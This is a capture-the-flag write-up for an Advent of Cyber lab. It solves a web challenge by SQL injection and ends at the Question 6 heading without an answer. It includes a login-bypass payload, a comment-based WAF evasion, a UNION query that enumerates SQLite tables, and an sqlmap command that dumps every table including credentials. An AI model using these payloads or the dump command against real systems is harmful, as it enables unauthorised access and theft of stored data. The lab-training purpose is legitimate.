

# Advent of cyber 2 | day 5 | Someone stole Santa's gift list!

> Tal Baraz

-----

For me the ip for the machine was: `10.10.3.234` it'll probably be diffrent for you.

## Question 1
*Without using directory brute forcing, what's Santa's secret login panel?*

after hading to `http://10.10.3.234:8000/` (like the text about suggested) and not seeing anything potentially vulnerable
and after looking at the hint: *The name is derived out of 2 words from this question.*

So I tried:
- /secretpanel
- /secretlogin
- /loginpanel
- /santalogin
- /santasecret

and I finally got it right on:
- /santapanel

I've probably could have guest that the first time by just looking at the length of the answer.

## Question 2
*Visit Santa's secret login panel and bypass the login using SQLi*

No answer needed

I manged to bypass the login form with a simple SQLi: `' or 1=1 --`

- Note: The challange suggest there's a WAF preventing spaces, but I didn't had this problem in my SQLi
However if they do change it in the future all you need to do is replace every space with a comment:
`' or 1=1 --` -> `'/**/or/**/1=1/**/--`.

## Question 3
*How many entries are there in the gift database?*

again with the same SQLi as before: `' or 1=1 --` I got all the enteries.

I could easily copy the table (Not inculding the headers) into a file i.e giftdb and use `wc` to count the number of lines, like a so:
```bash
cat giftdb | wc -l
```
and so the output is: `22`
- Note: don't forget to put a newline at the end of the last entrey, otherwise `wc` wouldn't count it as a line.

## Question 4
*What did Paul ask for?*

Because we have all the enteries, I just ran:
```bash
cat giftdb | grep -i paul 
``` 
and so the output is: `github ownership`

## Question 5
*What is the flag?*

- Note: I prefer to not use automated tools and so I will try to break in without `sqlmap`.

However I will provide you with the sqlmap command which will lead you to the flag and the admin's password
```bash
sqlmap -p search -r req --tamper=space2comment --dbms sqlite --batch --dump-all
```
- The `req` file is the request I captured with Burpsuite like they showed above. 
---
Moving on I first tried to see if there are really only 2 columns like we can see in the website so I searched:
```
' ORDER BY 1,2,3 --
```
And got a lovely error message telling me *3rd ORDER BY term out of range - should be between 1 and 2* so I know there's only 2 columns
after that using https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet this great cheatsheet for sqlite sqli's

I entered:
```
@' UNION SELECT sql,1 FROM sqlite_master WHERE type='table' --
```
and got this:


so we can see there are 3 tables:
- sequels: having a title, kid name, and age so we can understand that's the gift datebase on the website so nothing on intrest here.
- hidden_table: as we are looking for the flag the the table has 1 colunm for flag we can assume it's in there
- users: this might be useful for the sixth question when we are looking for the admin's password 

## Question 6
*What is admin's password?*
